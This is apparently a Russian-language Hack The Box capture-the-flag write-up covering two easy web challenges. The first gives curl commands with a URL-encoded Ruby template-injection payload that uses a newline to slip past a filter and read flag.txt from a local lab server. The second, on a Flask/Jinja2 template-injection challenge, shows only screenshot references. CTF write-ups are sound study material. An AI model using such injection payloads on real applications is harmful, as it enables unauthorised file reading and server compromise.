 Начнем с этого!

**с помощью `curl`**

```bash
# deliberate newline in console as `\n` fails to parse
curl -d 'neon=a
%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' 127.0.0.1:1337
```

```bash
curl 127.0.0.1:1337 \
  -s -X POST -d 'neon=a
%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'
```

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

Да, это было так просто! Привет 


**через Firefox (или Chrome (или другой браузер)) 

Снимков экрана слишком много, поэтому я буду краток и в виде списка:

-   Откройте инструменты разработчика браузера и просмотрите сетевой стек.
-   Отправьте действительную запись (я использовал `a`)
-   Найди `document` с `POST` запрос.
-   Изменить и отправить повторно
-   Измените тело запроса на полезную нагрузку выше
-   Отправить
-   Открыть в новой вкладке (если применимо).

---

## templated

**Платформа:** https://www.hackthebox.com/
**Уровень:** Easy

![[Pasted image 20230212144924.png]]

С название задачи мы уже понимаем что будем иметь дело с шаблонами. При посещении хоста мы видим flask/jinja2.

![[Pasted image 20230212144943.png]]

Уже ясно что нам нужно эксплуатировать шаблонизатор Python - Flask/Jinja2. Немного поиска в гугле. Поэтому я искал эксплойт.

![[Pasted image 20230212145132.png]]

Проверка на SSTI

![[Pasted image 20230212145148.png]]
